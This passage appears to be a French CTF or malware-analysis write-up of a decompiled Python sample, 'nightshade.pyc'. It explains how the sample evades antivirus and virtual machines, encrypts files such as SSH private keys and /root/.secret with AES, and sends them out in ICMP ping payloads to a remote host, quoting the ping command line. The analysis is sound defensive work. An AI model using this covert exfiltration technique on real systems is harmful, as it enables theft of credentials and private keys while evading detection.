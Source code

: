 ```python
        if os.path.exists(f):
            __exf(f, __x(__d))

    _kkoo = "/root/.secret"
    if os.path.exists(_kkoo):
        try:
            os.remove(_kkoo)
        except Exception as e:
            try:
                pass
            finally:
                e = None
                del e


if __name__ == "__main__":
    __main()

# okay decompiling /home/kali/Bureau/nightshade.pyc
```

Le script importe plusieurs modules (os, subprocess, psutil, base64, Crypto.Cipher.AES) et définit :

- une clé AES `(__k)`,
- un vecteur d’initialisation `(__v)`,
- une chaîne chiffrée `(__d)`

`__b64d()` décode une chaîne base64 en texte.

`__p()` et `__u()` sont des fonctions de padding/dépadding PKCS7 pour les blocs AES.

`__x()` déchiffre une chaîne hexadécimale avec AES CBC.

`__y()` chiffre une chaîne en AES CBC puis encode le résultat en hexadécimal.

`__chk_av()` semble détecter si des processus liés à des antivirus connus sont actifs.

La fonction la plus intéréssante est `__exf()`, cette fonction lit un fichier binaire, découpe son contenu en segments de 15 octets, chiffre chaque segment en AES CBC, puis l’envoie à distance via une commande ping (ICMP), dont les arguments sont construits à partir de chaînes encodées en base64 : 

```python
cmd = ["ping", "-c", "1", "-p", payload, destination]
```
Cela envoie les données chiffrées dans la payload des paquets ICMP vers l’IP cible.

Finalement la fonction principale `__main()`

- Ignore l’exécution si une VM ou un antivirus est détecté.

- Cherche à exfiltrer les fichiers suivants (s’ils existent) :

    - `/root/.secret`

    - `~/.ssh/id_rsa (clé privée SSH)`

    - `/root/.ssh/id_rsa`
